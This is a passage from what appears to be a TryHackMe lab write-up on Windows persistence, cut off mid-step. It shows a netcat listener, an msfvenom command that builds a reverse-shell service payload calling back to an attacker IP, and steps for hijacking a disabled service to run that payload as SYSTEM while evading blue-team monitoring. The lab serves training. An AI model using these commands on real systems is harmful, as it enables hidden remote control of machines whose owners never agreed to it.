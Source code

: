 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396523988/73f57fd4-6a03-495f-ab34-9adf183938b6.png){: .center-image }

```bash
rlwrap -cAr nc -lvnp 1337
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396536061/541da267-3495-4072-bfb6-9d36f4f5d44c.png){: .center-image }

```powershell
sc.exe start THMservice2
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396558073/339e07a4-0b34-4c5e-826a-6515ac17f40e.png){: .center-image }

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396560906/12ad62b1-432d-4030-990f-1d8249263031.png){: .center-image }

Grab `flag7.exe`.

### Modifying Existing Services

Considering that blue teams will be monitoring newly created services, we should avoid doing so and instead incorporate a backdoor into an existing service. A suitable method for this is to modify a legitimate, yet disabled, service. We can search for these by typing:

```powershell
sc.exe query state=all
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396624858/caa0b259-c718-4b95-b775-ec0111dbcfca.png){: .center-image }

There is a stopped service called `THMService3`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396642136/fc25c9a8-2ed3-43e2-8cbb-bd42847d63c7.png){: .center-image }

When altering an existing service, it is important to modify these three parameters:

1. `BINARY_PATH_NAME` = point to our payload
    
2. `START_TYPE` = auto
    
3. `SERVICE_START_NAME` = set to LocalSystem to help us maintain SYSTEM priv
    

Let's create a new reverse shell for this process.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f exe-service -o rev-svc2.exe
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396707428/cf6138f3-c42c-4d7c-b880-c8407871a1c7.png){: .center-image }

Now, we want to upload the file using `Evil-WinRM`:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692396727784/e63b4ef0-eece-471b-95b7-5ee14dfc61c4.png){: .center-image }

Reconfigure the `THMService3` parameters:
